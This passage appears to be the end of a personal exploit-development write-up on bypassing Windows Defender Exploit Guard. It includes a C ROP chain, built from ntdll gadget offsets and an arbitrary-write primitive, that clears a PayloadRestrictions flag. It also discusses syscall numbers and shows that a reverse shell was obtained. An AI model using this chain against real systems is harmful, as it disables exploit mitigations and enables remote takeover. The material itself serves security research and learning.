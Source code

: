 
### Switch WDEG Off

The final, but all important part, is to change the protect level on the flags:

```c
// change the WDEG enable flag
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x23c93); index += 8;         // pop rax; ret;
ArbitraryWrite(generalBufferAddr + index, generalBufferAddr + 0x578); index += 8;   // general buffer location
                                                                                    // rax now contains the address of PayloadRestrictions+0xe4004
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0xbbbf3); index += 8;         // mov rax, qword[rax]; ret;
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x9215b); index += 8;         // pop rcx ; ret ;
ArbitraryWrite(generalBufferAddr + index, 0x00); index += 8;                        // 0x00
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0xf49e3); index += 0x30;      // mov qword[rax], rcx; add rsp, 0x28; ret;
```

If all goes well then we are able to pivot the stack and call 'critical functions' such as `VirtualProtect`:

## Portability

When we make a `syscall` we must know the number that identifies the `syscall`. In this version of Windows the `syscall` for `NtProtectVirtualMemory` is `0x50` but this is not the case in all versions of Windows, in fact Microsoft change the `syscall` numbers VERY often. This bypass is only valid for this version of Windows and is not very portable. To make the bypass portable we would have to resolve the `syscall` number first, I might look at that in future, but for now this will do!

## Testing the Exploit

We can test the final exploit outside of WinDbg:

<img width="1109" alt="Screenshot 2025-01-27 at 15 28 33" src="https://github.com/user-attachments/assets/42a59acd-3613-44a6-b6dd-691d7c566a57" style="border: 1px solid black" />

Looks good, but did we get a reverse shell:

<img width="1109" alt="Screenshot 2025-01-27 at 15 28 33" src="https://github.com/user-attachments/assets/fa4cc7be-cd5c-4c67-844b-ea1e2b7f9807" style="border: 1px solid black" />

Nice!

## Conclusion

This was a nice exercise and I learned a lot about WDEG and how it has flaws. When I was searching online I didn't find a great deal of open source information on it. I might revisit it, time permitting, to see if I can make it more portable. I am more focused on CFG and ACG at the moment.

That is all... go away!
